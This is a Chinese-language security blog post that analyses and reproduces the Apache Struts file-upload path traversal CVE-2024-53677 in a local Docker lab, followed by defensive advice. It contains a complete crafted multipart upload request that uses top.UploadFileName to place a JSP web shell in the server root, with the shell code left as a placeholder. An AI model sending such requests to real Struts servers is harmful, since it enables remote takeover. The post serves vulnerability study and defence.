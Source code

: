 #  Apache Struts 文件上传漏洞分析与复现指南   
云梦DC  云梦安全   2024-12-26 01:00  
  
## 漏洞背景  
  
Apache Struts 是一种应用程序框架，应用应较广泛。在为用户提供文件上传功能时，Struts 采用了 FileUploadInterceptor 来处理上传请求。然而，该功能存在路径遍历漏洞，攻击者可通过构造恶意请求，将文件上传至不应该的目录，这可能导致远程代码执行（RCE）、敏感数据損失以及系统全局安全的破坏。  
### 漏洞影响版本  
- **Struts 2.0.0 至 2.3.37**  
  
- **Struts 2.5.0 至 2.5.33**  
  
- **Struts 6.0.0 至 6.3.0.2**  
  
### 漏洞添加解释  
  
FileUploadInterceptor 在处理文件上传时，对于用户输入的文件名和路径编码验证不固，导致可通过路径遍历将文件上传至目标文件夹之外，例如系统根目录。通过上传 Web Shell，攻击者可以完全控制目标系统。  
## 环境搭建  
  
为了复现该漏洞，可通过以下步骤搭建环境：  
### 环境代码仓库  
  
进入资源仓库：  
```
git clone https://github.com/wi1kwegam4a/VulhubExpand
cd VulhubExpand/Struts2/CVE-2024-53677
```  
### 启动 Docker 环境  
  
运行以下命令：  
```
docker-compose up -d
```  
  
启动后，通过浏览器访问上传接口：  
- URL：http://127.0.0.1:8080/upload.action  
  
### 初始化步骤  
  
随机上传一张图片，该操作将创建一个 **uploads**  
 文件夹，便于后续解析和涉深判断。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpyvb4bS02NIe9uF1ztjhTNBORM2QCcKVxFMyIoOG4bkQtSEWhibEAFgBG9s8xEoRMCm8opJYGc1Esg/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
### 构造恶意请求  
  
通过以下 POST 请求，将恶意文件上传至系统根目录：  
```
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=---------------------------10646135771952845599584984154
Content-Length: 363

-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="Upload"; filename="test.txt"
Content-Type: text/plain

PAYLOAD
-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="top.UploadFileName";../shell.jsp
-----------------------------10646135771952845599584984154--
```  
- 该请求利用 top.UploadFileName  
 参数，将上传文件路径调整到 ROOT 目录。  
  
- PAYLOAD  
 为恶意代码内容，例如 JSP Web Shell。  
  
### 观察效果  
  
上传成功后，通过浏览器访问：  
```
http://127.0.0.1:8080/shell.jsp
```  
  
如果恶意文件含有 Web Shell 代码，即可通过工具连接目标服务器，控制系统。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpyvb4bS02NIe9uF1ztjhTNB6sibrBUpxxV43e4pibaNxMmqxnpBBw0jL3icFwSWicfJCYuusCBFfOj4Vg/640?wx_fmt=png&from=appmsg "")  
## 防御建议  
1. **升级 Struts版本：**  
确保升级到最新版本，避免使用受影响版本。  
  
1. **限制文件上传路径：**  
通过添加文件路径规则，防止文件上传到不应该的目录。  
  
1. **文件名称校验：**  
为上传文件加上固定后缀名规则，禁止非预期后缀名文件上传。  
  
1. **安全强化：**  
  
1. 安装 Web 应用防火墙（WAF），检测和拦截可疑请求。  
  
1. 使用权限隔离，为应用限制文件写入权限。  
  
## 总结  
  
本次分析和复现了 Apache Struts 文件上传漏洞（CVE-2024-53677），分享了其应用环境、环境搭建与漏洞复现的过程。通过这些步骤，我们能够更好地理解路径遍历对文件上传功能带来的安全威胁，并通过实现功能防御，增强系统安全性。  
  
